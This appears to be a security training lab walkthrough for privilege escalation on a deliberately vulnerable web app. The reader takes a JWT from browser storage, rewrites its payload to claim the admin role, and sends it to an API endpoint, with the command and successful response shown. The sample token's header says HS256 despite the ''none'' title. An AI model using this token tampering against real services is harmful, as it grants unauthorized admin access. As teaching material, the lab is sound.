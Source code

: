 ## 'none' Signed Token

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.

![](img/login-page.png)


##### Step 3:

* Using `email` and `password` login to the application.

![](img/login-page.png)

##### Step 4:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer`,  select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 5:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `token`
    
    ![](img/get_token.png)

#### Step 6:

* Open https://jwt.io/ on the browser and paste the token. Tamper the value in Payload section to 


    {
    "username": "admin",
    "role": "admin",
    "email": "admin@widget.co"
    }


![](img/tamper-jwt.png)


##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)

##### Step 8:

* Run ` http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:<paste the copied token>`

```commandline
root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/none Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZW1haWwiOiJhZG1pbkB3aWRnZXQuY28ifQ.PSIL13J1t8Rrfd33fxgO2X3EaDaFQcsa0S3dAi07GLU
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 73
Content-Type: application/json
Date: Tue, 25 Sep 2018 16:32:05 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: yLaZex5YV7JTNFJoZrvlauQwCftBBi3Gpp2MP7rIAoGFd0MCIiBJ5g==
X-Amzn-Trace-Id: Root=1-5baa6305-3c51c12dc7373ad2db05ab16;Sampled=1
X-Cache: Miss from cloudfront
x-amz-apigw-id: NyRo5FXGIAMFpfg=
x-amzn-RequestId: 8a1c7c11-c0e0-11e8-9e6d-b3dfa2e0c648

{
    "decoded": {
        "email": "admin@widget.co", 
        "role": "admin", 
        "username": "admin"
    }
}
```
